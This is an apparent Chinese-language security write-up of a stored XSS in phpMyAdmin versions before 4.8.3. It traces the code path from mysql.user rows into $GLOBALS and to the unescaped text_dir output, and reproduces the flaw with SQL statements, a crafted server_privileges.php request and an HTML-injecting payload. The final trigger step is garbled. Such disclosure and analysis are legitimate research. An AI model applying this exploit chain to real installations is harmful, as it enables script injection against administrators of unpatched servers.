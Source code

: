 Phpmyadmin \< 4.8.3 XSS
=======================

一、漏洞简介
------------

最近在审计phpmyadmin的时候发现了一个XSS漏洞，后来发现在版本大于4.8.3以后该漏洞被修复了。看了下之前公布的CVE，有个CVE和此漏洞很相似但没有漏洞细节，于是乎便有了这篇文章。

二、漏洞影响
------------

Phpmyadmin \< 4.8.3

三、复现过程
------------

在审计phpmyadmin时，我比较关注\$GLOBALS全局变量，该变量存储了本次请求的信息、phpmyadmin基本设置信息和phpmyadmin配置文件信息等。先看看/libraries/classes/Server/Privileges.php::3977的以下代码。

    foreach ($row as $key => $value) {
        $GLOBALS[$key] = $value;
    }

很明显，该处是\$GLOBALS的赋值操作，而\$row来自于对mysql.user表的查询结果，且\$user\_host\_condition可控，/libraries/classes/Server/Privileges.php::3966行

    public static function getDataForChangeOrCopyUser()
        {
            $queries = null;
            $password = null;

            if (isset($_REQUEST['change_copy'])) {
                $user_host_condition = ' WHERE `User` = '
                    . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_username']) . "'"
                    . ' AND `Host` = '
                    . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_hostname']) . "';";
                $row = $GLOBALS['dbi']->fetchSingleRow(
                    'SELECT * FROM `mysql`.`user` ' . $user_host_condition
                );

既然上述代码会将mysql.user中符合条件的行的列名和值写入\$GLOBALS中,我们便可通过添加mysql.user的列来往\$GLOBALS中写入任意键值。清楚思路后，我们看看哪里调用了Privileges.php的getDataForChangeOrCopyUser函数,发现在server\_privileges.php::178中对该函数有调用。

    list($queries, $password) = Privileges::getDataForChangeOrCopyUser();

这时我们来试试向\$GLOBALS中写一个\$GLOBALS\[\'xz\'\]=\'aliyun\'。进入mysql库，执行以下2条sql语句向user表添加xz字段，并插入一条数据。

    ALTER TABLE user ADD xz varchar(255);
    INSERT INTO `user` (`Host`, `User`, `Password`, `Select_priv`, `Insert_priv`, `Update_priv`, `Delete_priv`, `Create_priv`, `Drop_priv`, `Reload_priv`, `Shutdown_priv`, `Process_priv`, `File_priv`, `Grant_priv`, `References_priv`, `Index_priv`, `Alter_priv`, `Show_db_priv`, `Super_priv`, `Create_tmp_table_priv`, `Lock_tables_priv`, `Execute_priv`, `Repl_slave_priv`, `Repl_client_priv`, `Create_view_priv`, `Show_view_priv`, `Create_routine_priv`, `Alter_routine_priv`, `Create_user_priv`, `Event_priv`, `Trigger_priv`, `Create_tablespace_priv`, `ssl_type`, `max_questions`, `max_updates`, `max_connections`, `max_user_connections`, `plugin`, `authentication_string`, `xz`) VALUES ('127.0.0.1', 'test', '*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', '', '0', '0', '0', '0', '', '', 'aliyun');

在/libraries/classes/Server/Privileges.php::3980下断点

    $serverVersion = $GLOBALS['dbi']->getVersion();

然后构造http://127.0.0.1/phpMyAdmin-4.8.2/server\_privileges.php?change\_copy=aa&old\_username=test&old\_hostname=127.0.0.1&mode=5
参数请求，change\_copy随便给个参数即可，mode必须大于4否则新添加的数据会被删除。

![1.png](./.resource/Phpmyadmin<4.8.3XSS/media/rId24.png)可以看到\$GLOBALS\[\'xz\'\]=\'aliyun\'已经成功赋值。

### 利用构造

有了可控的\$GLOBALS变量后，我们需要寻找触发点。要在一次请求便触发漏洞，公共页面是首选目标。通过全局搜索\$GLOBALS变量，发现在libraries/classes/Navigation/NavigationTree.php::1272的renderDbSelect函数中有使用未过滤的\$GLOBALS变量。

    $retval .= '<div>';
            $retval .= '<form action="index.php">';
            $retval .= Url::getHiddenFields($url_params);
            $retval .= '<select name="db" class="hide" id="navi_db_select">'
                . '<option value="" dir="' . $GLOBALS['text_dir'] . '">'

继续搜索调用renderDbSelect函数地方，发现libraries\\classes\\Navigation\\Navigation.php::62的getDisplay函数。

    public function getDisplay()
        {
            /* Init */
            $retval = '';
            $response = Response::getInstance();
            if (! $response->isAjax()) {
                $header = new NavigationHeader();
                $retval = $header->getDisplay();
            }
            $tree = new NavigationTree();
            if (! $response->isAjax()
                || ! empty($_REQUEST['full'])
                || ! empty($_REQUEST['reload'])
            ) {
                if ($GLOBALS['cfg']['ShowDatabasesNavigationAsTree']) {
                    // provide database tree in navigation
                    $navRender = $tree->renderState();
                } else {
                    // provide legacy pre-4.0 navigation
                    $navRender = $tree->renderDbSelect();

继续搜索实例化Naviagtion类并且调用了getDisplay函数的地方，发现libraries\\classes\\Header.php::440的getDisplay函数有调用。

    public function getDisplay()
        {
            $retval = '';
            ...(省略)
                    if ($this->_menuEnabled && $GLOBALS['server'] > 0) {
                        $nav = new Navigation();
                        $retval .= $nav->getDisplay();
                    }

搜索实例化Header-\>GetDisplay的方法，发现\\libraries\\classes\\Response.php::100的构造方法中实例化了Header类，而\$this-\_header又在\_getDisplay中被调用。\_getDisplay被\_htmlResponse调用，\_htmlResponse在response函数中被调用。

    private function __construct()
        {
            if (! defined('TESTSUITE')) {
                $buffer = OutputBuffering::getInstance();
                $buffer->start();
                register_shutdown_function(array($this, 'response'));
            }
            $this->_header = new Header();
            $this->_HTML   = '';
            $this->_JSON   = array();

\\libraries\\classes\\Response.php::266行

    private function _getDisplay()
        {
            // The header may contain nothing at all,
            // if its content was already rendered
            // and, in this case, the header will be
            // in the content part of the request
            $retval  = $this->_header->getDisplay();
            $retval .= $this->_HTML;
            $retval .= $this->_footer->getDisplay();
            return $retval;
        }

\\libraries\\classes\\Response.php::279行

    private function _htmlResponse()
        {
            echo $this->_getDisplay();
        }

\\libraries\\classes\\Response.php::438行

    public function response()
        {
            chdir($this->getCWD());
            $buffer = OutputBuffering::getInstance();
            if (empty($this->_HTML)) {
                $this->_HTML = $buffer->getContents();
            }
            if ($this->isAjax()) {
                $this->_ajaxResponse();
            } else {
                $this->_htmlResponse();
            }
            $buffer->flush();
            exit;
        }

这里注意\_\_construct中的register\_shutdown\_function函数，看php
manual，意思是说当脚本运行结束或遇到exit后会执行该response函数，![2.png](./.resource/Phpmyadmin<4.8.3XSS/media/rId26.png)**意思就是说只要哪里实例化了Response类，在程序运行结束后就会执行response函数**。真好，回到server\_privileges.php::34行，发现有实例化Response。

    $response = Response::getInstance();
    $header   = $response->getHeader();
    $scripts  = $header->getScripts();

拥有以上调用链后，只需要控制\$GLOBAS的键为text\_dir,值为XSS
payload即可，进入mysql库，执行以下sql语句修改列名xz为text\_dir，并修改数据为XSS
Payload。

    ALTER TABLE `user` CHANGE `xz` `text_dir` VARCHAR(255) CHARACTER SET utf8 COLLATE utf8_bin NULL DEFAULT NULL;
    UPDATE `user` SET `text_dir` = '\"><img src><option dir=\"' WHERE `user`.`Host` = '127.0.0.1' AND `user`.`User` = 'test';

构造https://wiki.0-sec.org/img
src=\"https://wiki.0-sec.org/img/69c5e770161c4eaeb6d839977209edf2.png\"
alt=\"3.png\" class=\"large\" onclick=\"window.open(this.src)\" /\>成功触发XSS

参考链接
--------

> https://xz.aliyun.com/t/7797

